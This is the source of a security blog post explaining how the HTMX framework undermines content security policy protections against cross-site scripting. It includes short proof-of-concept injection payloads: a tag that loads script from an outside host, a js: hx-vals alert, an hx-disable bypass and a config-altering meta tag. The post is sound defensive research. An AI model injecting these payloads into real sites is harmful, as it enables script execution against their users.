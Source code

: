```yaml
---
layout: post
title: "HTMX does not play well with content security policy"
thumbnail: blue-gate-480.jpg
date: 2024-06-26
---
```


HTMX is a JavaScript framework that makes it possible to replace DOM elements with dynamic data from AJAX requests, specified by HTML attributes. Because dynamic behavior is added to the page using normal HTML tags with custom attributes, it is difficult to provide additional security against cross-site scripting (XSS) attacks.

<!-- Photo source: https://pixabay.com/photos/blue-gate-english-countryside-1725791/ -->

## Introduction

Normally, a content security policy (CSP) can be used to limit which JavaScript is executed. It is difficult to configure a CSP where HTMX keeps working and is also protected against cross-site scripting.

## Loading malicious fragments

An obvious HTMX injection method is to perform a request to a malicious host. HTMX retrieves a HTML fragment, possibly containing JavaScript, and places it on the page. By triggering a request to domain other than the web application's, this can be used to load malicious script.

For example, the following tag loads and executes JavaScript that shows an alert:

```
<div hx-get="https://test.sjoerdlangkemper.nl/cors.php" hx-trigger="load"></div>
```

That `cors.php` file contains the JavaScript payload, and also sets CORS headers so that the browser has access to it.

<a href="https://demo.sjoerdlangkemper.nl/htmx/connect.php?name=hacker">Try it</a>

## Unsafe eval

HTMX dynamically creates and executes code. There are several HTMX [features](https://htmx.org/docs/#configuration-options) that do this:

- [trigger filters](https://htmx.org/docs/#trigger-filters)
- [*hx-on* attributes](https://htmx.org/docs/#hx-on)
- *hx-vals* or *hx-headers* with the `js:` or `javascript:` prefix

For these to work, the application has to allow evaluating dynamic code, using the CSP option `unsafe-eval`. However, allowing `unsafe-eval` immediately makes it possible to inject JavaScript using HTMX functionality.

For example, injecting the following tag shows an alert popup:

```
<div hx-vals='js:"a":alert(`XSS`)' hx-get="/" hx-trigger='load'>foo</div>
```

<a href="https://demo.sjoerdlangkemper.nl/htmx/eval.php?name=hacker">Try it</a>

## Disabling HTMX with *hx-disable*

It's possible to disable HTMX functionality in part of the page with the [*hx-disable* attribute](https://htmx.org/docs/#hx-disable). The docs claim this can bring additional security:

```
<div hx-disable>
    <%= raw(user_content) %>
</div>
```

> And htmx will not process any htmx-related attributes or features found in that content. This attribute cannot be disabled by injecting further content: if an hx-disable attribute is found anywhere in the parent hierarchy of an element, it will not be processed by htmx.

Of course, this is trivial to bypass: just close the div tag with `</div>` and insert your payload outside of the element with the *hx-disable* attribute.

<a href="https://demo.sjoerdlangkemper.nl/htmx/disable.php?name=hacker">Try it</a>

## Nonces for inline scripts

Using a nonce in the CSP is the most secure way to prevent script injection. The application generates a random nonce and adds that to all scripts that are part of the application. Scripts injected by the attacker don't have the correct nonce and are not executed.

HTMX has functionality that automatically adds the correct nonce to inline scripts it retrieves. This is convenient, but totally breaks the security model of CSP with nonces. By adding the correct nonce to any script it finds, HTMX totally compromises the security offered by nonces.

Automatically adding nonces is done through the [parameter](https://htmx.org/docs/#config) `htmx.config.inlineScriptNonce`. 

<a href="https://demo.sjoerdlangkemper.nl/htmx/nonce.php?name=hacker">Try it</a>

## Configuration meta tag

HTMX has several configuration options, which can be configured using a `<meta>` tag. In an XSS attack, this makes it possible to modify HTMX's configuration by injecting the correct `<meta>` tag.

For example, above we mentioned that the `hx-disable` attribute disabled HTMX processing. However, it is possible to rename that attribute in the configuration. By setting it from `hx-disable` to something else, the `hx-disable` functionality can be disabled. This can be achieved by injecting the following tag:

```
<meta name="htmx-config" content='{"disableSelector":"something"}'>
```

This even works within a tag with *hx-disable*, but only if there is no similar meta tag above it.

<a href="https://demo.sjoerdlangkemper.nl/htmx/disable.php?name=hacker">Try it</a>

## Conclusion

When a site uses HTMX, the attack surface of HTML injection greatly increases. It is possible to limit the risk of XSS by using a content security policy, but it not possible to have all HTMX features and provide security against injection.